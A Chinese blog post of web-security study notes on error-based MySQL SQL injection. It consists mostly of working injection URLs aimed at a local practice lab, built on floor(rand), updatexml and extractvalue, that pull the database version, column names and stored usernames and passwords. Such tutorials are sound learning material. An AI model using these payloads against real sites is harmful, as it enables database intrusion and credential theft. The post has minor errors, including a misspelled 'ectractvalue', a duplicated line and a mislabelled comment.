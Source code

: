```yaml
---
layout: post
title: "SQL注入-报错注入"
date: 2018-06-16
category: web安全
tags: web安全 sql注入 web安全进阶笔记
---
```


## 报错注入

### 01 报错注入原理

构造payload让信息通过错误提示回显出来  
应用场景：  
查询不回显内容，会打印错误信息  
Update、insert等语句，会打印错误信息  

	if($row)
	{
		echo 'Your Login name:'.$row['username'];
	}
	else
	{
		print_r(mysql_error());
	}

### 02 报错注入方法

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/04/01.png)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/04/02.png)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/04/03.png)

	select count(*) from information_schema.tables group by concat((select version()),floor(rand(0)*2));

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat((select version()),floor(rand(0)*2)))--+

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat((select user()),0x7e,floor(rand(0)*2)))--+

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat((select database() limit 0,1),0x7e,floor(rand(0)*2)))--+ // 表名

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 3,1),0x7e,floor(rand(0)*2)))--+ // 列名

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 3,1),0x7e,floor(rand(0)*2)))--+ // 列名

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat(0x7e,(select concat(username,0x7e,password) from users limit 0,1),0x7e,floor(rand(0)*2)))--+ // 数据

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/04/04.png)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/04/05.png)

	// 特殊符号导致方法报错，报错可以输出错误信息
	select ectractvalue(1,concat(0x7e,(select user()),0x7e));
	select updatexml(1,concat(0x7e,(select user()),0x7e),1);  

	报错注入只有32位长 用 substr截取字符串substr('ab',1,2) // 从第一位截取两个
	http://127.0.0.1:90/Less-1/?id=1' and updatexml(1,concat(0x7e,(select substr(concat(password),1,2) from users limit 0,1),0x7e),1) --+








